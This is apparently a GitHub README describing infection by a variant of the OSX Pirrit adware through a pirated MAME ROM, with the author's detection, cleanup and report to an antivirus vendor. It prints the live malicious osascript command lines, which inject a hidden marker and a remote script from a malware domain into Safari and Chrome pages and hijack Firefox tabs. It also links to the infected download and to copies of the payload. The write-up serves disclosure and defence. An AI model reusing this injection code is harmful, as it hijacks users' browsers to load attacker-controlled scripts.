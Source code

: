 Warning
=======

This repository contains binaries that are infected with the OSX Pirrit malware.

Backstory
=========

Recently I've been volunteering some of my free time to help children learn to program software and tinker with electronics and I thought it might be neat for the kids to build an old school arcade machine. As part of my initial research into this I had compiled MAME on my new MacBook and was searching for some ROMs to try out. The first ROM that I downloaded just happened to be infected with some nasty Malware...

If you're curious, the ROM was for [Galaxian](https://en.wikipedia.org/wiki/Galaxian) and [here is/was the actual download link](http://www.freeroms.com/dl_roms/rom_download.php?title=galaxian_midway&system=MAME&game_id=5674). 

Now at this point I should mention that from time-to-time I can be quite a careless individual. The ROM in question was packaged such that upon execution I was immediately asked to enter my root password. Stupid me complied without thinking twice. It was late. I was tired. And quite frankly my fingers were typing in auto-pilot mode at this point. My bad.

Almost immediately I knew that I had f**ked up.

Suddenly, some shadey "software services" appeared on my laptop and Safari started behaving oddly. Convinced that I'd been compromised by "something" I immediately downloaded ESET Cyber Security for Mac and ran a scan. 

Nothing.... My MacBook appeared clean. I was not convinced.

I checked my running processes and one in particular stood out. It looked like a whole bunch of javascript code passed as an argument to "/usr/bin/osascript".

```
  501   514   509   0 12:56pm ??         0:11.84 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU"^M\012^M\012repeat^M\012«event XFdrIjct» {} ^M\012end repeat^M\012^M\012^M\012on «event XFdrIjct» {}^M\012delay 0.5^M\012try^M\012if is_Safari_running() then^M\012tell application "Safari" ^M\012tell application "Safari" to set page_source to do JavaScript "document.body.innerHTML;" in current tab of first window ^M\012if page_source does not contain _pid then^M\012set theURL to URL of current tab of first window^M\012if theURL is not equal to "about:blank" then^M\012tell application "Safari" to do JavaScript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" in current tab of first window ^M\012tell application "Safari" to do JavaScript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);" in current tab of first window^M\012end if ^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Safari_running() ^M\012tell application "System Events" to (name of processes) contains "Safari"^M\012end is_Safari_running
  501   516   509   0 12:56pm ??         0:01.87 /usr/bin/osascript -e global delayTime^M\012set delayTime to 99999999^M\012global newTabUrl^M\012set newTabUrl to "'http://google.com'"^M\012global currentUrl^M\012set currentUrl to ""^M\012global previousUrl^M\012set previousUrl to ""^M\012global newTabWithPrev^M\012set newTabWithPrev to ""^M\012^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {}^M\012delay (delayTime * 60)^M\012try^M\012if is_Firefox_running() then^M\012tell application "Firefox" to activate^M\012tell application "System Events"^M\012keystroke "l" using command down^M\012keystroke "c" using command down^M\012delay(1)^M\012end tell^M\012set currentUrl to the clipboard^M\012^M\012if currentUrl is not equal to previousUrl then^M\012set newTabUrlWithPrev to newTabUrl^M\012set newTabUrlWithPrev to replace_chars(newTabUrlWithPrev, "[CONTEXT_URL]", currentUrl)^M\012tell application "Firefox"^M\012open location newTabUrlWithPrev^M\012end tell^M\012set previousUrl to newTabUrlWithPrev^M\012end if^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Firefox_running()^M\012tell application "System Events" to (name of processes) contains "firefox"^M\012end is_Firefox_running^M\012^M\012on replace_chars(this_text, search_string, replacement_string)^M\012set AppleScript's text item delimiters to the search_string^M\012set the item_list to every text item of this_text^M\012set AppleScript's text item delimiters to the replacement_string^M\012set this_text to the item_list as string^M\012set AppleScript's text item delimiters to ""^M\012return this_text^M\012end replace_chars
  501 66630   509   0  7:16pm ??         0:00.04 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU" ^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {} ^M\012delay 0.5^M\012try^M\012if is_Chrome_running() then^M\012tell application "Google Chrome" to tell active tab of window 1^M\012set sourceHtml to execute javascript "document.getElementsByTagName('html')[0].innerHTML"^M\012if sourceHtml does not contain _pid then^M\012tell application "Google Chrome" to execute front window's active tab javascript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" ^M\012tell application "Google Chrome" to execute front window's active tab javascript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);"^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Chrome_running() ^M\012tell application "System Events" to (name of processes) contains "Google Chrome"^M\012end is_Chrome_running
  501 66632 41100   0  7:16pm ttys000    0:00.00 grep osa
```

What in the hell is osascript? A quick google search revealed it to be part of the [Apple Open Scripting Architecture](https://developer.apple.com/library/content/documentation/AppleScript/Conceptual/AppleScriptX/Concepts/osa.html). 

A closer look and I could see that something else was being "bootstrapped" from the the domain aa9bd78f328a6a41279d0fad0a88df1901.com. Looks legit right?....

So I run a wget on the full URL and inspect the result which [you can see here](../blob/master/malicious.js). And there it was. Shitty adware.

I run some "kill -9" commands on the osascript processes but they just keep coming back. O.K. what's kicking THEM off? I check the PPID on the process and reveal it to be "/Library/research/research". I back him up ([downloadable here]((../blob/master/research.do.not.execute)) so I can take a closer look later -- then I delete it from its current location. I kill the process and all of the "osascript" child processes, which don't respawn. A quick cleanup of some shady .plist files and I'm satisfied that I've managed to get rid of it.

Why didn't AV pick it up?
=========================

So this I didn't expect. Surely this malware has been classified by now? So I post a question to [/r/malware](https://redd.it/5ea9bd) and shortly later I get a response from Cyber Security Researcher [Amit Serper](https://twitter.com/0xAmit) of [Cybereason](http://cybereason.com). Amit explains that the malware I'd encountered is a variant of OSX Pirrit which he initially discovered and analysed earlier in the year. [Here is that analysis](http://go.cybereason.com/rs/996-YZT-709/images/Cybereason-Lab-Analysis-OSX-Pirrit-4-6-16.pdf) if you're interested.

So this is a new varient of the same Malware OSX Pirrit and my AV simply didn't have a signature for it yet. Being the nice guy that I am, I follow ESET's instructions on [how to report a suspicious file](http://support.eset.com/kb141/#SubmitFile). Within hours I get a reply thanking me for my submission and that a signature update would be pushed out shortly. Which it was. In fact, the turn-around time was literally *just hours* which speaks volumes on ESET and their AV products.
